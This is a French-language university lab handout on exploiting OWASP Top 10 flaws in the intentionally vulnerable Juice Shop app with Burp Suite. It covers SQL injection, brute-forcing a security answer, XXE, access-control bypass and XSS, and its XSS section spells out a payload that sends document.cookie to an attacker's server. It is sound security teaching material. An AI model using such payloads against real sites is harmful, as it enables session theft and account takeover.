

# TP OWASP
## Introduction
Au cours de ce TP, vous allez exploiter quelques vulnérabilités du OWASP TOP 10. Vous utilisez votre machine pour effectuer les attaques et l'application OWASP Juice Shop installée dans une machine virtuelle en tant qu'application Web victime.

## Préparation de l’infrastructure
Dans cette section, vous allez créer un machine virtuelle dans l’OpenStack avec les caractéristiques suivantes:
- OS Ubuntu Server 20.04.3 LTS
- 2 vCPU
- 4 GB RAM
- 10 GB Espace disque
- Ports 80 et 443 ouverts (Normalement ouverts par défaut)

Dans la section suivante, vous allez installer l’OWASP Juice Shop sur cette machine.

## Juice Shop
Pour commencer, nous allons découvrir l’application OWASP Juice Shop.

OWASP Juice Shop est probablement l'application Web non sécurisée la plus moderne et la plus sophistiquée. Elle englobe les vulnérabilités de l'ensemble du OWASP TOP 10 ainsi que de nombreuses autres failles de sécurité trouvées dans les applications du monde réel.

Cette application contient un grand nombre de défis de difficulté variable où l'utilisateur est censé exploiter les vulnérabilités sous-jacentes. La progression est suivie sur un tableau de score. Trouver ce tableau de score est en fait l'un des défis (faciles)!

Au cours de ce TP, nous allons trouver et exploiter certaines vulnérabilités de OWASP TOP 10 dans cette application web.

Pour commencer, vous allez installer l'application Juice Shop sur la machine OpenStack créée précédemment. 

Cette application est disponible en version dockerisée. Malheureusement, plusieurs failles ne sont pas compatibles avec cette version. Donc, nous allons installer OWASP Juice Shop en version package.

### Installation OWASP Juice Shop
- Installez le Node.js 12 en suivant ce tutoriel
    - https://github.com/nodesource/distributions/blob/master/README.md#deb

- Téléchargez l’application OWASP Juice Shop
    - https://github.com/bkimminich/juice-shop/releases/download/v12.5.0/juice-shop-12.5.0_node12_linux_x64.tgz

- Décompressez l'archive et lancez l’application
    ```bash
    tar zxvf juice-shop-12.5.0_node12_linux_x64.tgz
    cd juice-shop_12.5.0/
    export NODE_ENV=quiet && export PORT=80 && sudo -E npm start
    ```
- Accédez à l’application avec le navigateur Web **Firefox**
    - L’application doit être disponible sur http://ADR-IP-DE-LA-MACHINE/

Si l'application n'est pas accessible, assurez-vous que l'application a été lancée correctement et que le port **80** est ouvert sur la machine.

## Burp Suite
Dans ce TP, nous n'allons pas utiliser d'outils qui automatisent la découverte et l'exploitation des vulnérabilités. 

Mais pour faciliter notre travail, nous allons utiliser un outil Proxy qui nous permettra d’intercepter, de modifier et de répéter les requêtes.

Bien qu'il existe plusieurs outils qui permettent de le faire, nous allons utiliser l’outil le plus moderne et le plus populaire, le *Burp Suite*. Cet outil est utilisé par la majorité des testeurs de pénétration et des Bug Hunters. Par exemple, Thomas DeVoss (dawgyg), qui est l’un des premiers hackers au monde à gagner 1 million de dollars avec Bug Bounties, utilise uniquement Burp Suite et un outil de découverte des assets dans son travail.

Selon Wikipedia, Burp Suite est une application Java, développée par PortSwigger Ltd, qui peut être utilisée pour la sécurisation des applications web ou pour effectuer des tests de pénétration sur les applications web. La suite est composée de différents outils comme un serveur proxy, robot d’indexation, un outil d'intrusion, un scanner de vulnérabilités et un répéteur HTTP.

Burp Suite existe en deux éditions: Burp Suite Community Edition et Burp Suite Pro. Dans ce TP, nous allons utiliser Burp Suite Community Edition qui est la version gratuite, fournie par défaut avec la distribution Kali Linux.

La version Pro est dotée de fonctionnalités supplémentaires, telles que l'analyse automatique des vulnérabilités, ainsi que le nombre plus élevé de threads pour les attaques et les requêtes.

Pour faire simple, Burp Suite fonctionne comme un proxy. Il se place entre vous et l'application web testée, puis intercepte et analyse toutes vos requêtes et les réponses de l’application Web. Donc, pour utiliser Burp Suite vous devez l’installer sur votre machine et l’utiliser comme proxy dans votre navigateur Web.

### Installation
- Installez la version Community de Burp Suite sur votre machine
    - https://portswigger.net/burp/releases/professional-community-2020-12-1

### Configuration
Dans cette section, vous allez configurer votre navigateur Web pour qu’il utilise Burp Suite comme serveur proxy.

Pour avoir la possibilité d’activer et de désactiver le proxy rapidement, installez l'extension *FoxyProxy Standard* pour *Firefox*.

Lancez le Burp Suite avec un projet temporaire et avec la configuration par défaut et ajoutez une entrée pour le proxy Burp Suite dans le FoxyProxy (Adresse 127.0.0.1 et port 8080). Puis, activez l’utilisation de proxy Burp Suite dans le *FoxyProxy*.

### Utilisation
Essayez d'accéder à l'application Juice Shop précédemment lancée.

Si tout est configuré correctement, vous verrez une page se charger continuellement en attente de réponse du serveur Web.

Si c’est le cas, rendez-vous dans Burp Suite onglet Proxy. 

Dans cet onglet vous allez voir votre requête.


Burp Suite a intercepté votre requête à l’application Web. 

Vous avez la possibilité de la modifier ou/et de l’envoyer. 

Si vous cliquez sur *Forward*, votre requête sera envoyée à l’application Web et une réponse sera reçue. Pour afficher une page, votre navigateur peut avoir besoin de faire plusieurs requêtes à l’application web. Donc, il peut être nécessaire de cliquer plusieurs fois sur *Forward* pour que votre navigateur soit débloqué et que vous puissiez voir la réponse de l'application Web dans le navigateur. 

#### Repeater
Vous avez aussi la possibilité d’envoyer votre requête au *Repeater*. 



*Repeater* vous permet d’envoyer une requête et d’afficher la réponse de l’application Web directement dans Burp Suite. Pour faire cela, faites un clic droit sur la requête et *Send to Repeater*, puis allez dans l'onglet *Repeater*. 

Cette fonctionnalité est extrêmement utile, par exemple lorsque vous essayez d'effectuer une attaque en modifiant votre requête et que vous souhaitez voir la réponse de l'application Web directement sans passer par le navigateur Web. 

Cette fonctionnalité vous permet d'ajuster votre attaque pour obtenir le résultat souhaité.

#### Intruder
Une autre possibilité intéressante est d’envoyer votre requête au *Intruder*. *Intruder* fonctionne en prenant une requête HTTP, en modifiant la requête de différentes manières, en envoyant chaque version modifiée de la requête et en analysant les réponses de l'application pour identifier les fonctionnalités intéressantes. Pour faire cela, faites un clic droit sur la requête et *Send to Intruder*, puis puis allez dans l’onglet *Intruder*. 

Cette fonctionnalité est utile, par exemple lorsque nous souhaitons essayer une liste de valeurs pour un paramètre de requête. Nous allons positionner des *markers* dans l’onglet *Positions* et nous allons choisir les valeurs qui seront essayées aux positions des markers dans l’onglet *Payloads*.


Dans le cas présenté sur l’image, Burp Suite va envoyer 4 requêtes à l’application Web avec les valeurs “option1”, “option2”, “option3” et “option4” pour le cookie `io`.

## Time to hack
Dans cette section, vous allez utiliser le *Burp Suite* pour trouver et exploiter les vulnérabilités dans l’application Web *Juice Shop*. 

### Échauffement - Trouvez le score board
Dans cette partie, vous allez chercher le score board. Sur le score board, vous pouvez voir une liste de tous les défis disponibles dans OWASP Juice Shop avec une brève description. 

Certaines descriptions sont des instructions très explicites. D'autres ne sont que de vagues indices qui vous laissent le soin de savoir ce qui doit être fait.

Nous allons procéder d’une manière complètement manuelle, sans l’utilisation de *Burp Suite*.

Désactivez l’utilisation de proxy Burp Suite dans FoxyProxy et trouvez le lien du score board. 

Vous avez plusieurs options: soit vous analysez le code source du site (n'oubliez pas d'analyser les fichiers JavaScript), soit devinez le nom de la page où le tableau de score est caché.

- Quel est le lien qui permet d'accéder au score board?

### Injection - Devenir administrateur
Dans cette section, vous allez exploiter une injection SQL pour vous connecter en tant qu'administrateur.

Pour commencer, essayez de provoquer une erreur sur la page d’authentification.

Utilisez le *Burp Suite* pour intercepter vos requêtes. Vous devez intercepter la requête qui envoie les valeurs saisies dans le formulaire d'authentification à l'application Web. 

Lorsque vous avez intercepté cette requête, envoyez-la au *Burp Suite Repeater* avec clique droit *Send to Repeater*. 

*Burp Suite Repeater (onglet Repeater)* vous permettra de modifier votre requête pour essayer une entrée différente et de visualiser directement la réponse de l’application web.

Essayez les différentes entrées du formulaire et surveillez les réponses de l'application Web.

- Comment provoquez-vous l’erreur en utilisant le formulaire d’authentification?

- Quelles données intéressantes sont divulguées par le serveur dans le message d’erreur?

- Trouvez une injection qui permettra de vous connecter avec le compte administrateur.
    - Le compte administrateur est la première entrée de la base de données.
    - Une fois que vous avez découvert comment exploiter le formulaire de connexion avec *Burp Suite*, désactivez le proxy et authentifiez-vous sur l'application avec le compte administrateur.

Bravo! Vous êtes administrateur!

Dans cette section, nous avons aussi rencontré une vulnérabilité de type *Security Misconfiguration*. Nous avons provoqué une erreur qui a révélé la requête SQL utilisée par l'application Web. Cela représente une mauvaise configuration de la sécurité de l’application. Normalement, l'application doit être configurée de manière à ne jamais afficher d'informations sensibles dans les messages d'erreur. 

### Authentification cassée - Voler l'identité de Jim
Dans cette section, nous allons exploiter un mauvais mécanisme de restauration de mot de passe. Nous allons exploiter cette vulnérabilité pour changer le mot de passe de l’utilisateur Jim et voler son identité.

Pour commencer, vous devez d'abord comprendre le fonctionnement de cette fonctionnalité. Donc, vous allez analyser comment fonctionne le mécanisme de restauration de mot de passe.

Pour faire cela, créez un utilisateur et essayez de restaurer son mot de passe via la fonctionnalité de mot de passe oublié. 

Analysez les requêtes et les réponses avec *Burp Suite* et *Burp Suite Repeater*.

- Que contient la réponse de l'application Web lorsque vous envoyez la demande de restauration de mot de passe avec la réponse à la question de sécurité correcte / incorrecte?

Lorsque vous comprenez comment fonctionne la restauration de mot de passe, vous pouvez essayer de l’exploiter. 

Nous avons vu que pour effectuer une restauration de mot de passe, il faut connaître l’adresse mail et la réponse à la question de sécurité de la victime. Nous avons de la chance car l’adresse mail de la victime peut être trouvée sur les pages de l’application web.

Explorez le site pour trouver l’adresse mail de Jim.

- Quelle est l’adresse mail de Jim?

En saisissant son adresse email dans le formulaire de restauration du mot de passe, on retrouve sa question de sécurité. 

- Quelle est la question de sécurité de Jim?

Supposons que Jim ait effectivement répondu à cette question et que la réponse soit un prénom. Pour découvrir la réponse à sa question de sécurité, nous pouvons utiliser deux approches différentes:
- *OSINT*: Analyser l’identité de Jim et essayer de trouver la réponse à partir des données disponibles publiquement sur Internet
- *Dictionary Attack*: Nous pouvons trouver un dictionnaire avec tous les prénoms possibles et les essayer tous

OSINT (Open Source Intelligence) est une ressource très puissante. Vous ne pouvez même pas imaginer la quantité de données intéressantes que nous pouvons trouver en utilisant intelligemment des sources ouvertes.

Si vous trouvez la bonne réponse dans des sources publiques, votre attaque a moins de chances d'être détectée par l’application cible. Cette approche doit donc être privilégiée dans la vraie vie. Par contre, cela demande énormément de travail et nécessite beaucoup de temps.

Comme pour ce TP, nous sommes limités dans le temps, nous allons utiliser Dictionary Attack avec un dictionnaire restreint.

**wordlist-prenoms.txt**
```
John
Zilvia
Zino
Tine
Tineke
Zita
Zitella
Zoe
Samuel
Wilton
Win
Windowing
```

Nous allons utiliser *Burp Suite Intruder* pour effectuer cette attaque. 

Interceptez la demande de restauration de mot de passe avec l'adresse mail de *Jim* et n'importe quelle réponse à la question de sécurité. Puis faites un clic droit et *Send to Intruder*. 

Dans l’onglet *Intruder->Positions* effacez tous les markers et créez un marker à la position de la réponse à la question de sécurité. Pour l’*Attack Type*, il faut bien choisir *Sniper*. 

Puis dans l’onglet *Payloads*, vous choisissez un payload de type *Simple List* et dans *Payload Options* copiez la liste des prénoms donnée plus haut. 

Démarrez l’attaque et analysez bien la longueur et le statut de la réponse. Pour chaque réponse de sécurité essayée par *Intruder*, vous pouvez visualiser la requête envoyée et la réponse reçue de l’application web. 

- Quelle est la réponse à la question de sécurité de Jim?

### XML External Entities (XEE) - Lire un fichier du serveur
Dans cette section, vous allez exploiter la vulnérabilité XML External Entities. Vous allez utiliser cette vulnérabilité pour lire le fichier `/etc/passwd` de la machine serveur.

Un exemple d’exploitation de cette vulnérabilité a été vu pendant le CM. Cet exemple fonctionne également pour l’OWASP Juice Shop. Il vous reste à trouver la page qui vous permettra d’uploader un fichier XML et d’exploiter la vulnérabilité. Ne cherchez pas la page trop loin, cette page est accessible depuis la page d'accueil en étant connecté avec n'importe quel utilisateur.

Utilisez le *Burp Suite Repeater* pour visualiser vos requêtes et les réponses de l’application web.

- Avez-vous réussi à exploiter cette vulnérabilité?
- Quel message d’erreur accompagne le contenu du fichier `/etc/passwd` ?

### Security Misconfiguration - Trouver des documents confidentiels
Il arrive souvent que des ressources intéressantes qui ne sont pas censées être vues par d'autres soient disponibles sur le serveur. 

Dans cette section, nous allons rechercher des fichiers intéressants disponibles sur le serveur Web de l'application Juice Shop.

Pour faire une découverte de ressources cachées, nous pouvons utiliser des outils automatisés, comme *dirbuster* ou *gobuster*. Ces outils permettent d’effectuer le brute force afin de découvrir les fichiers et les dossiers disponibles sur des serveurs Web. Ils nous permettent de trouver différentes ressources cachées: pages, fichiers, répertoires et applications.

Avant de commencer à effectuer des analyses massives qui peuvent être détectées par les systèmes de sécurité, vous devez toujours essayer des choses plus simples. Vous pouvez commencer par analyser les fichiers de configuration qui sont souvent présentés sur les sites Web et qui peuvent révéler des informations intéressantes. 

Par exemple, le fichier de configuration des scanners des moteurs de recherche peut révéler des répertoires cachés disponibles sur le serveur Web.

- Quel fichier permet de spécifier quelles zones du site Web ne doivent pas être traitées ou scannées par des moteurs de recherches?
- Quel répertoire avez-vous découvert en analysant ce fichier?
- Quelles informations confidentielles trouvez-vous susceptibles d'avoir un impact boursier significatif?

### Broken Access Control - Afficher le panier d'un autre utilisateur  
Dans cette section, vous allez trouver et exploiter la vulnérabilité de contrôle d'accès cassé. Cette vulnérabilité est présente dans la fonctionnalité d'affichage du panier et vous permet de visualiser le panier de n'importe quel utilisateur de l'application.

Comme dans les sections précédentes, nous allons commencer par analyser le fonctionnement de la visualisation du panier. 

Créez un compte, authentifiez-vous et ajoutez un article dans le panier.

Activez le proxy Burp et trouvez la requête REST qui récupère les articles du panier de l’utilisateur. 

Envoyez cette requête dans Burp Suite Repeater et analysez le résultat.

Faites attention à l'en-tête HTTP `If-None-Match`

- Que fait cette en-tête?

Lorsque vous avez compris comment fonctionne la récupération du panier, essayez de manipuler la requête pour récupérer le panier de l'administrateur (utilisateur avec l’id `1`).

- Combien de produits y a-t-il dans son panier?

### Cross-Site Scripting (XSS) - Voler des cookies
Dans cette section, vous allez trouver et exploiter la vulnérabilité de type Reflected XSS. Vous allez trouver un paramètre ou une entrée qui n’effectue aucun filtrage ou nettoyage de l'entrée. Ensuite, vous allez créer un lien spécial qui volera les cookies d'un utilisateur lorsqu'il cliquera dessus.

Tout d'abord, vous devez trouver une page avec un paramètre ou une entrée vulnérable.

Il faudra trouver une page où une entrée utilisateur est incluse dans la réponse immédiate (dans le contenu de la page HTML). Ensuite, il faudra vérifier si cette entrée est incluse dans la page sans validation ni échappement.

Vous pouvez essayer de mettre du code HTML dans l'entrée utilisateur (par exemple `<h1>SRIV</h1>`) et si le contenu HTML est inclus et interprété sur la page, vous avez trouvé une vulnérabilité.

Ne cherchez pas trop loin, car la page vulnérable se trouve facilement à partir de la page d'accueil. 

- Quelle page et quel paramètre sont vulnérables?

Félicitations, vous avez trouvé un moyen d’injecter du code HTML dans la page. Il faut maintenant trouver un moyen d'injecter du code JavaScript dans la page afin de pouvoir récupérer et envoyer les cookies de l'utilisateur. Pour faire cela, vous pouvez utiliser le tag HTML `iframe` ou `img`.

- `iframe` le code JS dans le paramètre `src=”javascript:CODE_JS”`
- `img` qui essaye de charger une image inexistante avec du code JS dans le paramètre `onerror=”CODE_JS”`

- Quelle requête utiliseriez-vous pour afficher SRIV en tant qu'alerte JavaScript? 

Ensuite, il faut trouver un moyen de récupérer les cookies des utilisateurs avec du code JavaScript. Les cookies de l’utilisateur se trouvent dans la variable `document.cookie`.

Affichez les cookies dans une alerte JS en utilisant la vulnérabilité trouvée précédemment.

- Quelle requête utiliseriez vous pour faire cela?

Jusqu'à présent, vous avez affiché des cookies en exploitant une vulnérabilité XSS.

Nous allons maintenant voir comment il est possible de voler les cookies d'un utilisateur en exploitant cette vulnérabilité. 

- Démarrez un serveur HTTP python sur le port `443` sur la machine OpenStack
    - `sudo python3 -m http.server 443`
- Créez une requête sur la page vulnérable en utilisant le tag HTML `img` avec `onerror` suivant
    - `this.src="http://ADR-DE-LA-MACHINE-OPENSTACK:443/?c="+document.cookie`
- Testez cette requête
    - Si tout a été fait correctement dans les logs du serveur HTTP vous allez voir les cookies de l’utilisateur


- Avez-vous réussi à exploiter cette vulnérabilité?

De même, vous pouvez envoyer ce lien à la victime. Lorsque la victime ouvrira ce lien, vous allez recevoir ses cookies. Ensuite, il sera possible d'usurper son identité en utilisant ses cookies.

L'attaque vue ci-dessus est relativement compliquée à réaliser car la victime doit utiliser le lien fourni par l'attaquant. Par conséquent, les attaques Reflected XSS et DOM XSS dans la plupart des cas ne sont pas considérées comme critiques.

### Cross-Site Scripting (XSS)  - Voler des cookies de l’administrateur
Dans cette section, vous allez exploiter la vulnérabilité de type Stored XSS. 

Vous allez essayer de publier du code JavaScript qui sera stocké dans la base de données et sera exécuté à chaque fois que la page est consultée par un utilisateur.

Dans le cadre de ce TP, l'exploitation de cette vulnérabilité nous permettra de voler des cookies d'administrateur.

Pour voler les cookies, vous allez utiliser la technique vue dans la section précédente (une serveur HTTP python et le code Javascript dans un tag HTML `img`).

La différence avec la section précédente est que vous devez trouver un moyen de publier du code JavaScript sur une page qui sera consultée par l'administrateur.

**Un indice**: l’adresse mail saisie lors de la création de l’utilisateur est validée uniquement côté client et est affichée dans le panneau d'administration. Vous devez donc intercepter et modifier la demande de création d'utilisateur avec *Burp Suite* et *Burp Suite Repeater*.

- Quel code mettez-vous dans le champ email de votre requête? 

Vous pouvez accéder au panneau d'administration à l'aide de l'injection SQL vue précédemment pour vous authentifier en tant qu'administrateur et en utilisant le chemin suivant : `/#/administration`. 

Si vous ne parvenez pas à récupérer les cookies d'administrateur, n'hésitez pas à regarder le code HTML affiché dans le panneau d'administration pour ajuster votre attaque.

Stored XSS est considéré comme une vulnérabilité critique car le code s'exécute automatiquement et peut affecter un très grand nombre d'utilisateurs. 

- Avez-vous réussi à exploiter cette vulnérabilité?

Bravo! Vous avez terminé le TP!
